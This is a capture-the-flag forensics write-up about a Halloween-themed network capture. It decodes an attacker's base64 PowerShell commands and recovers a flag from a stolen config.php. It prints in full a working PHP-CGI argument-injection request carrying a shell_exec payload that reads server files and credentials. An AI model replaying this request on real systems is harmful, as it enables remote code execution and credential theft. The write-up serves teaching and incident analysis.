

## Challenge 🧩

On a fog-covered Halloween night, a secure site experienced unauthorized access under the veil of darkness. With the world outside wrapped in silence, 
an intruder bypassed security protocols and manipulated sensitive areas, leaving behind traceable yet perplexing clues in the logs. 
Can you piece together the fragments of this nocturnal breach?

## Solution 🕵️‍♂️

Analysing `.pcap` file reveals multiple PHP shell executions in TCP stream 3



Decoding the Base64 encoded String

```bash
┌──(user㉿shell)-[~]
└─$ echo "cG93ZXJzaGVsbC5leGUgLUMgIiRvdXRwdXQgPSBHZXQtQ2hpbGRJdGVtIC1QYXRoIEM6OyAkYnl0ZXMgPSBbVGV4dC5FbmNvZGluZ106OlVURjguR2V0Qnl0ZXMoJG91dHB1dCk7ICRjb21wcmVzc2VkU3RyZWFtID0gW1N5c3RlbS5JTy5NZW1vcnlTdHJlYW1dOjpuZXcoKTsgJGNvbXByZXNzb3IgPSBbU3lzdGVtLklPLkNvbXByZXNzaW9uLkRlZmxhdGVTdHJlYW1dOjpuZXcoJGNvbXByZXNzZWRTdHJlYW0sIFtTeXN0ZW0uSU8uQ29tcHJlc3Npb24uQ29tcHJlc3Npb25Nb2RlXTo6Q29tcHJlc3MpOyAkY29tcHJlc3Nvci5Xcml0ZSgkYnl0ZXMsIDAsICRieXRlcy5MZW5ndGgpOyAkY29tcHJlc3Nvci5DbG9zZSgpOyAkY29tcHJlc3NlZEJ5dGVzID0gJGNvbXByZXNzZWRTdHJlYW0uVG9BcnJheSgpOyBbQ29udmVydF06OlRvQmFzZTY0U3RyaW5nKCRjb21wcmVzc2VkQnl0ZXMpIg==" | base64 -d
```

After Decoding we get the PowerShell script that takes the output of a command, convert them to bytes, compress the bytes and convert the compressed byte array to Base64 string.

```ps
powershell.exe -C "
$output = Get-ChildItem -Path C:;
$bytes = [Text.Encoding]::UTF8.GetBytes($output);
$compressedStream = [System.IO.MemoryStream]::new();
$compressor = [System.IO.Compression.DeflateStream]::new($compressedStream, [System.IO.Compression.CompressionMode]::Compress);
$compressor.Write($bytes, 0, $bytes.Length);
$compressor.Close();
$compressedBytes = $compressedStream.ToArray();
[Convert]::ToBase64String($compressedBytes)"

```

The Following request of interest executes `Get-Content -Path C:\xampp\htdocs\config.php` command

```text
POST /?%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input HTTP/1.1
Accept-Encoding: identity
Host: halloweencorp.htb
User-Agent: curl/8.3.0
Accept: /
Content-Length: 664
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive

<?php echo shell_exec(base64_decode('cG93ZXJzaGVsbC5leGUgLUMgIiRvdXRwdXQgPSBHZXQtQ29udGVudCAtUGF0aCBDOlx4YW1wcFxodGRvY3NcY29uZmlnLnBocDsgJGJ5dGVzID0gW1RleHQuRW5jb2RpbmddOjpVVEY4LkdldEJ5dGVzKCRvdXRwdXQpOyAkY29tcHJlc3NlZFN0cmVhbSA9IFtTeXN0ZW0uSU8uTWVtb3J5U3RyZWFtXTo6bmV3KCk7ICRjb21wcmVzc29yID0gW1N5c3RlbS5JTy5Db21wcmVzc2lvbi5EZWZsYXRlU3RyZWFtXTo6bmV3KCRjb21wcmVzc2VkU3RyZWFtLCBbU3lzdGVtLklPLkNvbXByZXNzaW9uLkNvbXByZXNzaW9uTW9kZV06OkNvbXByZXNzKTsgJGNvbXByZXNzb3IuV3JpdGUoJGJ5dGVzLCAwLCAkYnl0ZXMuTGVuZ3RoKTsgJGNvbXByZXNzb3IuQ2xvc2UoKTsgJGNvbXByZXNzZWRCeXRlcyA9ICRjb21wcmVzc2VkU3RyZWFtLlRvQXJyYXkoKTsgW0NvbnZlcnRdOjpUb0Jhc2U2NFN0cmluZygkY29tcHJlc3NlZEJ5dGVzKSI=')); ?>HTTP/1.1 302 Found
Date: Fri, 13 Sep 2024 21:12:40 GMT
Server: Apache/2.4.58 (Win64) OpenSSL/3.1.3
X-Powered-By: PHP/8.1.25
Location: http://halloweencorp.htb/dashboard/
Keep-Alive: timeout=5, max=97
Connection: Keep-Alive
Transfer-Encoding: chunked
Content-Type: text/html; charset=UTF-8
```

Using response of the above request and decoding the output 

> [!IMPORTANT]  
> The Following Program/Part of the Program is generated using Generative AI GPT-4o mini.

```ps
PS C:\> $base64String = 'dY9RS8MwFIX/ynUIyWDKZNkYTjdSW/DFKe3Ux0ttbligpjVtGTL2311a58bA+xIO37nnntwtynUJirSxxFkYYBLFb1HMBsDUB+vPTtHrni3lU9RBbCpyZ44XmSTvz3HoHY+rYKuHE1Q3Y1GWI+FGCoVVqHMxwY2oUA8bqy52ZxGhXMlAJu2RdBwsU6W9Ay4/v6uv3MA9WNpAJ/hf3wGc9GvFoUorDqE+yGjgv2FX86ywlrIaybnC9WELfpQh3nvoiCks6NTkpG6hB9fwz+YMdnBkFdWYrVO3fzlraj31P1jMfwA='  

$compressedBytes = [Convert]::FromBase64String($base64String)
$compressedStream = New-Object System.IO.MemoryStream
$compressedStream.Write($compressedBytes, 0, $compressedBytes.Length)
$compressedStream.Position = 0

$decompressedStream = New-Object System.IO.MemoryStream
$decompressor = New-Object System.IO.Compression.DeflateStream($compressedStream, [System.IO.Compression.CompressionMode]::Decompress)
$decompressor.CopyTo($decompressedStream)
$decompressor.Close()

$decompressedBytes = $decompressedStream.ToArray()
$decompressedString = [System.Text.Encoding]::UTF8.GetString($decompressedBytes)

Write-Output $decompressedString
```

Output
```php
<?php define('DB_SERVER', 'db');
define('DB_USERNAME', 'db_user');
define('DB_PASSWORD', 'HTB{f06_d154pp34r3d_4nd_fl46_w4s_f0und!}');
define('DB_DATABASE', 'a5BNadf');
$mysqli = new mysqli(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_DATABASE);
if ($mysqli->connect_error) {
die("Connection failed: " . $mysqli->connect_error);
}
$mysqli->set_charset('utf8');
?>
```

## Flag 🚩

`HTB{f06_d154pp34r3d_4nd_fl46_w4s_f0und!}`
